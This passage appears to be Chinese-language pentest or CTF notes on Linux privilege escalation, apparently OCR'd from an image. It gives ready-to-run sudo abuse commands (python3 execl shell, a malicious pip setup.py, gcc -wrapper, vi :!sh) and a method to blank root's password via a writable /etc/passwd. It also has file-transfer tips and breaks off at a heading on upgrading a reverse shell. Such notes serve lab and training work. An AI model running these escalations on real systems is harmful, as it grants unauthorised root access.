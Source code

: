 #### 直接写入

有些时候sudo -l你会发现可执行的是个可写入文件，那直接写入/bin/bash去提权即可
又如python可以直接执行时

```
sudo /usr/bin/python3 -c 'import os;os.execl("/bin/sh","sh","-p")'
```

#### pip提权

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
pip install $TF
```

#### 写入密码

当/etc/passwd可以写入的时候，可以把root的密码设置为空，或者是openssl passwd -1去生成密码，把root的密码改了

#### gcc提权

```
sudo gcc -wrapper /bin/sh,-s .
```

#### vi逃逸

前提就是可以root执行vi，直接打开vi写入:!sh，本质是打开了一个shell

### 常用挤巧

#### 文件上传or下载

个人常用sftp

```
1.SFTP建立连接
sftp username@ip

2.上传
上去之后直接put

3.下载
上去之后直接get，或者是mget * 可以得到当前目录下的全部文件
```

还有一个方法，本地利用python起一个服务，靶机利用wget下载

```
python3 -m http.server 80
```

#### shell

当你反弹shell准备提权，发现shell不是交互式的
